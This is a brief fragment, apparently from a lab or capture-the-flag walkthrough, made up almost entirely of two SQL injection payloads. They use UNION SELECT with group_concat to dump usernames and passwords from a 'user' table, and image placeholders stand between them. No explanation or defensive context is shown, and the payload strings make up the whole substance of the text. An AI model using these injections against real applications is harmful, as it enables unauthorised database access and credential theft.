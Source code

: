 ```
```

![](./IMG/22.png)

```
' and 1=2 UNION SELECT 1,group_concat(username, password),3 FROM user WHERE id='1'-- -
```
![](./IMG/23.png)
```
' and 1=2 UNION SELECT 1,group_concat(username),3 FROM user WHERE id='1'-- -
```
